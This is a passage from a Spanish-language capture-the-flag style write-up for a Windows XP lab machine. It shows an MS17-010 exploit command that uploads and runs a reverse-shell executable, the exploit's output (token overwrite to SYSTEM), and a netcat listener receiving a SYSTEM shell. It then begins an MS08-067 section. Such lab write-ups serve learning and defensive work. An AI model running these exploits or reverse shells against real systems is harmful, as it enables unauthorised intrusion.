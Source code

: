 ```bash
  ❯ python send_and_execute.py 10.10.10.4 reverseShell.exe 445 spoolss
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  Groom packets
  attempt controlling next transaction on x86
  success controlling one transaction
  modify parameter count to 0xffffffff to be able to write backward
  leak next transaction
  CONNECTION: 0x8652bce0
  SESSION: 0xe239f1c8
  FLINK: 0x7bd48
  InData: 0x7ae28
  MID: 0xa
  TRANS1: 0x78b50
  TRANS2: 0x7ac90
  modify transaction struct for arbitrary read/write
  make this SMB session to be SYSTEM
  current TOKEN addr: 0xe23d7468
  userAndGroupCount: 0x3
  userAndGroupsAddr: 0xe23d7508
  overwriting token UserAndGroups
  Sending file 850ZDK.exe...
  Opening SVCManager on 10.10.10.4.....
  Creating service rhVR.....
  Starting service rhVR.....
  The NETBIOS connection with the remote host timed out.
  Removing service rhVR.....
  ServiceExec Error on: 10.10.10.4
  nca_s_proto_error
  Done
```

Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `NT Authority/System`

```bash
  ❯ rlwrap nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.4] 1034
  Microsoft Windows XP [Version 5.1.2600]
  (C) Copyright 1985-2001 Microsoft Corp.
  
  hostname
  hostname
  legacy
  C:\WINDOWS\system32>
```
## EXPLOTACION MS08-067

Vamos a realizar la explotación de nuestro segundo CVE, para este caso haremos uso del script de github de [andyacer](https://github.com/andyacer/ms08_067) _para esta explotación es necesario tener instalado python2_.
  